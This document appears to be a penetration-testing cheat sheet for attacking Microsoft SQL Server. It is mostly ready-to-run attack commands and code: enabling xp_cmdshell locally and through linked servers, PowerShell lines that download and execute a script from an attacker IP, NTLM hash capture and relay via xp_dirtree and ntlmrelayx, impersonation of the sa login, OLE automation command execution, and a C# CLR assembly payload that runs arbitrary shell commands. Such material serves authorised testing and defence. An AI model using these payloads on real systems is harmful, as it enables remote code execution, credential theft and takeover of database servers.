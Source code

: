 # MSSQL

### [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

#### Find Servers

```text
Get-SQLInstanceDomain
```

#### Find Servers the current user can connect to as

```text
PowerShell Get-SQLInstanceDomain | Get-SQLConnectionTest
```

#### Execute query or command

```text
Get-SQLQuery -Instance '<server>.<domain>,1433' -Query 'select @@servername'
Invoke-SQLOSCmd -Instance '<server>.<domain>,1433' -Command 'dir C:\' -RawResults
```

#### Crawl Database Links

```text
Get-SQLServerLinkCrawl -Instance '<server>.<domain>,1433'
```

### Linked Servers

#### Query through linked server

```text
select version from openquery("<server>", 'select @@version as version')
```

#### Command through linked server

```text
EXEC('xp_cmdshell ''\\<ip>\public\payload.exe'';') AT [SERVERNAME]
EXEC('xp_cmdshell ''powershell.exe -exec bypass -c "iex(iwr http://<ip>/run.txt -usebasicparsing)"'';') AT [SERVERNAME]
```

This can also be nested \(potentially coming back to the own server with different permissions\):

```text
EXEC ('EXEC (''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT SERVER1') AT SERVER2
EXEC ('EXEC (''xp_cmdshell ''''powershell.exe -exec bypass -c "iex(iwr http://<ip>/run.txt -usebasicparsing)"'''';'') AT SERVER1') AT SERVER2
```

#### Read file through linked servers

```text
select * from openquery("<server>.<domain>", 'select * from openquery("<server>.<domain>", ''select * from openrowset(bulk N''''C:\x.txt'''', single_nclob) as contents'')')
```

### Linked Servers via Metasploit

We can use "windows/mssql/mssql\_linkcrawler" to find linked servers and even execute commands on them.

### xp\_cmdshell

#### Enable locally

```text
sp_configure 'Show Advanced Options', 1; RECONFIGURE;
sp_configure 'xp_cmdshell', 1; RECONFIGURE
```

#### Enable through link \(requires RPC Out enabled\)

```text
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [<server>]
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [<server>]
SELECT * FROM OPENQUERY("<server>", 'select * from sys.configurations where name = ''xp_cmdshell''')
```

#### Running xp\_cmdshell through serverlink

```text
SELECT * FROM OPENQUERY("<server>", 'select @@servername; exec xp_cmdshell ''dir c:''')
```

This will however not give any output \(but still execute\).

### External python script

```text
EXEC sp_configure 'external scripts enabled', 1
RECONFIGURE
EXEC sp_execute_external_script
@language =N'Python',
@script= N'import os; os.system("whoami")'
go
```

### SQLShell on Linux

```bash
docker pull mcr.microsoft.com/mssql-tools
docker run -it mcr.microsoft.com/mssql-tools
```

### Interact via C\#

#### Connect

```csharp
using System;
using System.Data.SqlClient;

namespace Connect {
  class Program {
    static void Main(string[] args) {
      String sqlServer = "<server>";
      String database = "master";
      String conString = "Server = " + sqlServer + "; Database = " + database + "; Integrated Security = True;";
      SqlConnection con = new SqlConnection(conString);
      
      try {
        con.Open();
        Console.WriteLine("Authentication successful!");
      } catch {
        Console.WriteLine("Authentication failed");
        Environment.Exit(0);
      }
      con.Close();
    }
  }
}
```

Any Domain User can by default access any MSSQL server via Kerberos \(as guest user and databases have separate permissions\).

#### Execute Queries

```csharp
String querylogin = "SELECT SYSTEM_USER;";
SqlCommand command = new SqlCommand(querylogin, con);
SqlDataReader reader = command.ExecuteReader();
reader.Read();
Console.WriteLine("Logged in as: " + reader[0]);
reader.Close();
```

### xp\_dirtree

Running xp\_dirtree on a UNC path will cause NTLM Authentication, the hash can be stolen via responder/metasploit and cracked \(hashcat mode 5600\).

```text
EXEC master..xp_dirtree \\<ip>\share
```

Alternatively the hash can be relayed:

```text
sudo impacket-ntlmrelayx --no-http-server -smb2support -t <target> -c 'powershell -enc ...'
```

### Impersonation

Find accounts which can be impersonated:

```text
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```

This allows us to run a query as another user:

```text
EXECUTE AS LOGIN = 'sa';
```

To compromise a complete server, the database user we impersonate must be in a db that has the "Trustworthy" property \(by default only "msdb"\), e.g.:

```text
use msdb; EXECUTE AS USER = 'dbo';
```

### Execute OLE objects

```text
EXECUTE AS LOGIN = 'sa';
EXEC sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE;"
DECLARE @myshell INT; EXEC sp_oacreate 'wscript.shell',@myshell OUTPUT; EXEC sp_oamethod @myshell, 'run', null, 'whoami';"
```

### Execute Custom Assemblies

Write a managed DLL payload:

```csharp
using System;
using Microsoft.SqlServer.Server;
using System.Data.SqlTypes;
using System.Diagnostics;

namespace StoredProcedures
{
    class Program
    {
        [Microsoft.SqlServer.Server.SqlProcedure]
        public static void cmdExec(SqlString execCommand)
        {
            // execute command
            Process proc = new Process();
            proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
            proc.StartInfo.Arguments = string.Format(@" /C {0}", execCommand);
            proc.StartInfo.UseShellExecute = false;
            proc.StartInfo.RedirectStandardOutput = true;
            proc.Start();

            // write result into table and show
            SqlDataRecord record = new SqlDataRecord(new SqlMetaData("output", System.Data.SqlDbType.NVarChar, 4000));
            SqlContext.Pipe.SendResultsStart(record);
            record.SetString(0, proc.StandardOutput.ReadToEnd().ToString());
            SqlContext.Pipe.SendResultsRow(record);
            SqlContext.Pipe.SendResultsEnd();

            proc.WaitForExit();
            proc.Close();
        }
    }
}

```

Compile this DLL and then convert into a hexadecimal representation with PowerShell:

```text
$assemblyFile = "payload.dll"
$stringBuilder = New-Object -Type System.Text.StringBuilder
$fileStream = [IO.File]::OpenRead($assemblyFile)
while (($byte = $fileStream.ReadByte()) -gt -1) {
  $stringBuilder.Append($byte.ToString("X2")) | Out-Null
}
$stringBuilder.ToString() -join ""
```

Execute with:

```text
use msdb;
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'clr enabled',1;
RECONFIGURE;
EXEC sp_configure 'clr strict security', 0;
RECONFIGURE;
CREATE ASSEMBLY custom_asm FROM 0x.... WITH PERMISSION_SET = UNSAFE;
CREATE PROCEDURE [dbo].[cmdExec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [custom_asm].[StoredProcedures].[cmdExec];
EXEC cmdExec 'whoami'
```

